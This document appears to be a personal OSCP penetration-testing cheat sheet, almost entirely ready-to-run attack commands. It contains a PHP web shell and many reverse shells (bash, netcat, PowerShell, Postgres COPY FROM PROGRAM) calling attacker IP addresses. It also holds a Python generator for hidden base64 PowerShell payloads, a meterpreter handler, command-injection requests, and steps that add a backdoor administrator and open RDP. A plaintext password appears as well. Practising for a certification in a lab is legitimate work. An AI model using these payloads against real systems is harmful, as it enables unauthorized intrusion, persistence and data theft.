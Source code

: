 - SSH connection to OSCP machines
```
ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" learner@192.168.50.52
```
- Bash One-Liners
```
	for ip in $(cat list.txt); do host $ip.megacorpone.com; done
```
- SecLists Project - collection of wordlists
- PHP command execution
```
<?php echo system($_GET['cmd']); ?>
```
- One liner reverse shell
```
bash -i >& /dev/tcp/192.168.119.3/4444 0>&1

bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"

bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F4444%200%3E%261%22


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.118.2 1234 >/tmp/f

```

- powershell one liner reverse shell

```
$client = New-Object System.Net.Sockets.TCPClient('192.168.45.230',4444);$stream =$client.GetStream();[byte[]]$bytes = 0..65535|%{0}while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex '. { $data } 2>&' | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
![[rev.ps1]]

Base64 encoding for powershell
```
$MyBase6 = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('$client = New-Object System.Net.Sockets.TCPClient("192.168.45.",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' ))

$Bytes=[Convert]::FromBase64String($Text)
[System.Text.Encoding]::Unicode.GetString($Bytes)
```

msfconsole 

```
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"

```
find using powershell

Get-ChildItem -Path C:\ -Include \*.kdbx -File -Recurse -ErrorAction SilentlyContinue

Get-ChildItem -Path C: -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

download powershell

```
iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
iwr -uri http://192.168.45.204:9090/Seatbelt.exe -Outfile seat.exe
```

network scanning
for i in $(seq 1 254); do nc -zv -w 1 172.16.203.$i 445; done

xfreerdp /u:justin /p:_SuperS3cure1337#_ /v:192.168.203.202

curl -X POST http://192.168.174.134:13337/update -H "Content-Type: application/json" -H "X-Forwarded-For: localhost" --data '{"user":"clumsyadmin","url":"http://192.168.45.230:8000/mint"}'

```
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)

```

php reverse shell

https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php


```
import os
os.popen("id").read()
```

### Upgrade shell

python -c 'import pty; pty.spawn("/bin/sh")'
`   python3 -c 'import pty; pty.spawn("/bin/bash")'   ` #upgrade-shell


curl -X  post --data "code=os.system('nc -e /bin/bash 192.168.45.162 18000')" http://192.168.175.117:50000/verify

```
%0Anc%20192.168.118.3%204444%20-e%20%2Fbin%2Fb

ssh -R 80:0.0.0.0:80 web_svc@192.168.240.147
ssh -N -R 127.0.0.1:60002:127.0.0.1:60002 kali@192.168.xx.xxx

ssh kali@192.168.45.238 -R 1234(kali_port):localhost:5432(victim_port)

```

bash -i>&/dev/tcp/192.168.45.225/8083 0>&1

nmap -sV -p- -oN nmap-all-ports 192.168.250.62

nc -e /bin/bash 192.168.45.162 18000  #nc_shell

https://medium.com/@cybenfolland/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa

john --wordlist=/usr/share/wordlists/rockyou.txt hash_teacher #mysql_hash_crack

https://github.com/WhiteWinterWolf/wwwolf-php-webshell/blob/master/webshell.php

file upload bypass extension

https://systemweakness.com/proving-grounds-practise-active-directory-box-access-79b1fe662f4d

https://shawnvoong.medium.com/how-to-pass-the-2023-oscp-pen-200-on-the-first-try-part-1-enumeration-a0b272a86cf7

Information Gathering

nmap -p- -sV -sC -v <IPADDRESS> — open

sudo nmap -p 53,67,68,69,111,123,161,162,137,138,139,514,1900,5353,500,445 -sU <IPADDRESS>

autorecon --nmap-append="min-rate=2000" --exclude-tags="top-100-udp-ports" --exclude-tags nikto --dirbuster.threads=40 --dirbuster.tool=gobuster -v 192.168.241.145 

wpscan — url [http://URL](http://URL)  
wpscan — url [http://URL](http://URL) — enumerate p — plugins-detection aggressive

user creation and rdp enable
net user /add jack Password@12345
net localgroup administrators jack /add
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

asp reverse shell

https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx

postgres reverse shell

COPY temp FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.238 8090 >/tmp/f';

sudo psql --host=127.0.0.1 -U postgres

\! /bin/sh

ntlm relay

https://medium.com/@ushah.789012/cleared-oscp-april-2023-5980c5e2c3d8